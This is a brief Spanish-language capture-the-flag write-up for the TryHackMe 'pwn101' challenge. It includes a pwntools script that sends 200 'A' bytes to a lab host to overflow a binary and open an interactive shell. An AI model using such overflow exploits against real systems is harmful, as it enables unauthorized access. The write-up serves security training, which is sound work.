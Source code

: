 # Enunciado
![Imagen01](01.png)
# Resolución

Al ejecutar el binario vemos que con una entrada grande ya se desborda y nos da una shell.
![](02.png)

Por lo que escribimos directamente el código.

![](03.png)


~~~
from pwn import *
p = remote('10.10.6.214',9001)

payload = b'A'*200
p.recv()
p.sendline(payload)
p.interactive()
~~~
Lo ejecutamos y podemos acceder a la flag.

![](04.png)

 
**Autor:** [Andr3sdelRio](https://twitter.com/Andr3sdelRio) 

- [URL original del reto](https://tryhackme.com/room/pwn101) 
 
